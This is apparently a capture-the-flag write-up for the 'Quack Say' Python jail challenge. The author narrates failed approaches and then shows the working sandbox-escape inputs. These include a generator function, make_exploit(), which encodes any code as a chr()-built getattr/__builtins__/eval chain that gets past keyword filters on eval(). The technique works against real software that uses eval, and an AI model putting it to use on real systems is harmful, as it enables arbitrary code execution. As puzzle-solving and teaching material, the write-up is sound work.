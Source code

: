 # Quack Say

For `jail1.py` -

```
exec('import os, sys;sys.stdout = sys.__stdout__;print("CSeC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}");sys.stdout = open(os.devnull, "w")')
```

For `jail2.py` -

```
getattr(*(list(getattr(*(list(globals() for a in chr(1)) + list(chr(103)+chr(101)+chr(116) for a in chr(1))))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)) for a in chr(1)) + list(chr(101)+chr(118)+chr(97)+chr(108) for a in chr(1))))(chr(101)+chr(120)+chr(101)+chr(99)+chr(40)+chr(39)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(44)+chr(32)+chr(115)+chr(121)+chr(115)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(115)+chr(121)+chr(115)+chr(46)+chr(95)+chr(95)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(95)+chr(95)+chr(59)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(34)+chr(67)+chr(83)+chr(101)+chr(67)+chr(123)+chr(81)+chr(117)+chr(52)+chr(99)+chr(107)+chr(95)+chr(49)+chr(53)+chr(95)+chr(104)+chr(49)+chr(98)+chr(51)+chr(114)+chr(110)+chr(52)+chr(55)+chr(49)+chr(110)+chr(103)+chr(125)+chr(34)+chr(41)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(111)+chr(115)+chr(46)+chr(100)+chr(101)+chr(118)+chr(110)+chr(117)+chr(108)+chr(108)+chr(44)+chr(32)+chr(34)+chr(119)+chr(34)+chr(41)+chr(39)+chr(41))
```

This was without a doubt the most gruelling problem of this set. I surely spent over 1 hour on `jail1.py` and maybe even 4-5 hours searching for different methods to solve `jail2.py`.

I had a few immediate observations on seeing the code.

First of all, the list of blocked words in `jail2.py` was a hint to solving `jail1.py`. 

The `eval()` function only computes expressions, but I wanted to run my own code. On Googling, I found that an `exec` statement could be used inside an `eval()`.

To get the required print output, I designed this piece of code -

```python
import os, sys
sys.stdout = sys.__stdout__
print("CSeC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}")
sys.stdout = open(os.devnull, "w")
```

In brief, this code prints a text to the `default stdout`, then redirects the output of the `stdout` stream to `os.devnull` (trash). Hence, any more text will not be printed to the console.

Now, we just need to wrap an `exec()` function around this and we're done with `jail1.py`.

The next part was much more difficult.

On exploring internet, I first found the `compile()` function which compiles python source code into AST objects. I assumed that if I somehow could export this output into a string, it would not contain any part of the cleartext (original code), and I would successfully be able to pass it as input.

However, I was unable to get around this problem. I found [this](https://stackoverflow.com/questions/71510595/serialize-python-code-object-from-compile) question on StackExchange looking for exactly what I wanted, but was unsolved.

I started with another approach. The `eval()` function accepts a string, whose encoding I thought I could manipulate. I started searching for various encoding streams of `string.encode()` in python, which would scramble my cleartext to make it pass.

Again, I was stuck trying to find one such encoding and left this approach.

At this point I had spent atleast 2-3h reading articles on [Python Bytecode](https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d), [compile()](https://docs.python.org/3/library/functions.html#compile) and [eval()](https://medium.com/techtofreedom/the-eval-function-in-python-a-powerful-but-dangerous-weapon-ba44e39fa9e2) without much success.

One common thing I notices in most of these articles was that the `eval()` function is quite insecure, and even simple checks (like making sure the expression does not delete system files, or doesn't modify variables) are readily exploitable.

I started searching more on this and came across [this](https://stackoverflow.com/questions/3513292/python-make-eval-safe) answer on Stack.

```
> are eval's security issues fixable or are there just too many tiny details to get it working right?

Definitely the latter -- a clever hacker will always manage to find a way around your precautions.
``` 

I then searched for some of these exploits and came across 3-4 of them - using `pyparsing`, `ast`, `binascii` and `getattr + ord`.

To avoid importing anything, I looked more into the `getattr + ord` exploit and came across [**this**](https://stackoverflow.com/questions/13066594/is-there-a-way-to-secure-strings-for-pythons-eval) answer on Stack which was basically it.

The exploit -

```python
def to_chrs(text):
    return '+'.join('chr(%d)' % ord(c) for c in text)

def _make_getattr_call(obj, attr):
    return 'getattr(*(list(%s for a in chr(1)) + list(%s for a in chr(1))))' % (obj, attr)

def make_exploit(code):
    get = to_chrs('get')
    builtins = to_chrs('__builtins__')
    eval = to_chrs('eval')
    code = to_chrs(code)
    return (_make_getattr_call(
                _make_getattr_call('globals()', '{get}') + '({builtins})',
                '{eval}') + '({code})').format(**locals())
```

Using `make_exploit()` on the code 

```
exec('import os, sys;sys.stdout = sys.__stdout__;print("CSeC{Qu4ck_15_h1b3rn471ng}");sys.stdout = open(os.devnull, "w")')
```
we finally generate a looooooooong input which does pass `file2.py` and we are done.

The final commands are -

```bash
satyankar@Satyankars-MacBook-Air Quack_Say % python3 solve.py 1
exec('import os, sys;sys.stdout = sys.__stdout__;print("CSeC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}");sys.stdout = open(os.devnull, "w")')
satyankar@Satyankars-MacBook-Air Quack_Say % python3 solve.py 2
getattr(*(list(getattr(*(list(globals() for a in chr(1)) + list(chr(103)+chr(101)+chr(116) for a in chr(1))))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)) for a in chr(1)) + list(chr(101)+chr(118)+chr(97)+chr(108) for a in chr(1))))(chr(101)+chr(120)+chr(101)+chr(99)+chr(40)+chr(39)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(44)+chr(32)+chr(115)+chr(121)+chr(115)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(115)+chr(121)+chr(115)+chr(46)+chr(95)+chr(95)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(95)+chr(95)+chr(59)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(34)+chr(67)+chr(83)+chr(101)+chr(67)+chr(123)+chr(81)+chr(117)+chr(52)+chr(99)+chr(107)+chr(95)+chr(49)+chr(53)+chr(95)+chr(104)+chr(49)+chr(98)+chr(51)+chr(114)+chr(110)+chr(52)+chr(55)+chr(49)+chr(110)+chr(103)+chr(125)+chr(34)+chr(41)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(111)+chr(115)+chr(46)+chr(100)+chr(101)+chr(118)+chr(110)+chr(117)+chr(108)+chr(108)+chr(44)+chr(32)+chr(34)+chr(119)+chr(34)+chr(41)+chr(39)+chr(41))
```

~~command for file2 doesn't fit in my terminal stdin lol and has to be sent via redirection.~~